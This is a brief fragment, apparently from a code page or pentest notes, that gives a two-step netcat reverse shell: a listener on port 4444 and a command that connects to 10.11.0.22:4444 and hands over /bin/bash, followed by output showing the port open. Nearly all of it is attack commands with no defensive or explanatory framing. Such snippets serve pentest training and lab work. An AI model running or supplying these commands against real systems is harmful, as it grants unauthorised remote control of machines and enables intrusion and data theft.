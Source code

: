 # 1) spawn listener for remote shell
```sh
nc -nlvp 4444
```

# 2) send bash to remote attacker
```sh
nc -nv 10.11.0.22 4444 -e /bin/bash
...
(UNKNOWN) [10.11.0.22] 4444 (?) open
```

